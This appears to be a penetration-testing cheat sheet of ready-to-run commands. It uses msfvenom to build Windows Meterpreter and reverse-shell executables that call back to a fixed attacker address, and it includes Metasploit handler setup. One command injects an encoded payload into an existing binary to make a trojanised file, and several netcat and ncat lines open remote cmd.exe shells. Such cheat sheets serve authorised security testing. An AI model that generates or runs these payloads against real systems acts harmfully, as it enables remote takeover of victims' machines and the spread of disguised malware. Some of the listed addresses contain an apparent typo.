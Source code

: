 ## Msfvenom

* Meterpreter

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=445 -f exe -o shell_reverse.exe
```

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
```

* Non-staged payload (works with nc)

```
msfvenom -p windows/shell_reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o shell_reverse_tcp.exe
```

```
use exploit/multi/handler
set payload windows/shell_reverse_tcp
```

* Staged payload (must be caught with metasploit)

```
msfvenom -p windows/shell/reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o staged_reverse_tcp.exe
```

```
use exploit/multi/handler
set payload windows/shell/reverse_tcp
```

* Inject payload into binary

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=445 -f exe -e x86/shikata_ga_nai -i 9 -x "/somebinary.exe" -o bad_binary.exe
```

## Netcat Shell

```
nc.exe -nlvp 4444 -e cmd.exe
nc.exe 192.168.1.101 443 -e cmd.exe

ncat --exec cmd.exe --allow 192.168.1.101 -vnl 5555 --ssl
ncat -nv <ip_to_connect> 4444
```

